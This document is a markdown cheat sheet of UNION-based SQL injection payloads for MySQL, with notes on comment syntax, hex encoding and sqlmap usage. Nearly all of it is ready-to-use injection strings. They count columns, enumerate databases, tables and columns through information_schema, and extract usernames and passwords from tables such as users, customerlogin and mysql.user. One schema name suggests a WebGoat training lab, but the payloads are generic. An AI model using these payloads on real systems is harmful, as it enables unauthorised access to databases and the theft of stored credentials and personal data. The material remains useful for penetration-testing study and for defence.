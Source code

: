 SQL Injection UNION Based
=========================

Notes
-----
```
-- requires a space at the end (--+) !!!!!!!!!!!!!!!!!!!!
Depending on identified injection technique use "#" or "--+" for comment.
Should use "--+" when atttack in the URL

Nice cheat sheets
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

It is possible to use ASCII HEX encoding for some of the variable names. (Use Burp decoder/encoder)
Must be prefixed with "0x"
When using ASCII HEX, quotes are not required. Do not use them...
"databasename" when encoded would become "0x64617461626173656e616d65"
"tablename" when encoded would become "0x7461626c656e616d65"

Use sqlmap -v 7 to gather more details
sqlmap -r ./xxxxx.txt --batch -v 7 > ./yyyyyyyyyy.txt
-t TRAFFICFILE ?????????
Review results............

Add comments at end of parameter to help identify SQLInjection
Valid request returns no error
theUserName=fzappa
Returns Error
theUserName=fzappa'
Returns No Error (potentially vulnerable)
fzappa--+ORDER+BY+1
```




Get Number of Columns First (Required for further attacks)
----------------------------------------------------------
```sql
--  Method 1
-- Increment "number" by 1 and monitor response for different responses or errors.
-- If the error is returned on "'+ORDER+BY+4#" then the table has 3 columns. 
'+ORDER+BY+1#
'+ORDER+BY+2#
'+ORDER+BY+3#
'+ORDER+BY+4#
'+ORDER+BY+5#
'+ORDER+BY+?............#


-- Method 2
-- Increment ",NULL" by adding additional ",NULL" and monitor response for different responses or errors.
-- If the error is returned on "'+UNION SELECT NULL,NULL,NULL,NULL#" then the table has 3 columns. 
'+UNION+SELECT+NULL#
'+UNION+SELECT+NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL........#
```



Retrieve All Database Names
---------------------------
```sql
'UNION+ALL+SELECT+NULL,NULL,concat(schema_name)+FROM+information_schema.schemata#
'+UNION+ALL+SELECT+NULL,NULL,CONCAT('~',schema_name,'~'),NULL,NULL,NULL,NULL+FROM+INFORMATION_SCHEMA.SCHEMATA--+
```



Get Current Database Name and Additional Information
----------------------------------------------------
```sql
'+UNION+ALL+SELECT+database(),NULL,NULL#
'+UNION+ALL+SELECT+NULL,NULL,CONCAT('~',DATABASE(),'~'),NULL,NULL,NULL,NULL--+
@@datadir
@@hostname
@@version
current_role()
database()
found_rows
row_count()
schema()
session_user()
system_user()
user()
version()
```



Get Tables in Database
----------------------
```sql
-- Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,concat(TABLE_NAME)+FROM+information_schema.TABLES+WHERE+table_schema='webgoat_coins'#
```


Get Columns When Table Name is Known
------------------------------------
```sql
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,CONCAT(column_name,'+',column_type)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='products'+AND+table_schema='webgoat_coins'#
```


Get Data from Columns MORE NOTES NEEDED 
---------------------
```sql

INJECTION MUST RESPECT THE NUMBER OF COLUMNS. USE NULL IF REQUIRED.
'+UNION+SELECT+<columnname>,<columnname>+FROM+<tablename>--%20
'+UNION+SELECT+user,password+FROM+users--%20

'+UNION+SELECT+NULL,email,+password+FROM+customerlogin#
'+UNION+SELECT+answer,email,+password+FROM+customerlogin#


#############TESTING NOTES########################
Get data from other tables
'+UNION+SELECT+username,+password+FROM+users+

Retrieving multiple values within a single column - useful if the application only returns a single column in the response.
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```




Get Data From Other Databases
-----------------------------
```
# Need to know the dbname, tablename, and column names.
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,column1,0x3a,column2,0x29)+FROM+dbname.tablename#
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,user,0x3a,password,0x29)+FROM+mysql.user#

```
